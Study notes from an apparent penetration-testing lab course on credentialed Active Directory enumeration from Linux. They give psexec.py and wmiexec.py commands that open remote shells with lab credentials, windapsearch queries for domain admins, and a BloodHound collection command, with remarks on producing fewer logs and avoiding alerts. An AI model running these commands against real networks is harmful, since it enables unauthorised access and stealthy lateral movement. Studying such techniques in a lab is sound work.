 - `psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125` → gives us shell

## **wmiexec.py**

Wmiexec.py utilizes a semi-interactive shell where commands are executed through [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page). It does not drop any files or executables on the target host and generates fewer logs than other modules. 

- `wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5` → gives us shell

<aside>
5️⃣ **Windapsearch**

</aside>

[Windapsearch](https://github.com/ropnop/windapsearch) is another handy Python script we can use to enumerate users, groups, and computers from a Windows domain by utilizing LDAP queries.

- `python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da` → gives users from domain admin group
    
    `--da` = enumerate domain admins group members
    
- `python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU` → check for users with elevated privileges
    
    `-PU` = find privileged users
    

<aside>
6️⃣ **Bloodhound.py**

</aside>

It was initially only released with a PowerShell collector, so it had to be run from a Windows host. Eventually, a Python port (which requires Impacket, `ldap3`, and `dnspython`) was released by a community member. This helped immensely during penetration tests when we have valid domain credentials, but do not have rights to access a domain-joined Windows host or do not have a Windows attack host to run the SharpHound collector from. This also helps us not have to run the collector from a domain host, which could potentially be blocked or set off alerts (though even running it from our attack host will most likely set off alarms in well-protected environments).

- `sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all` → executing bloodhound.py
    
    `-ns` = nameserver
    
    `-d` = domain
    
    `-c` = checks; all checks in this case.
    

we will get various json file

- `zip -r ilfreight_bh.zip *.json` → zip up the json file.
    
    

# **Credentialed Enumeration - from Windows**
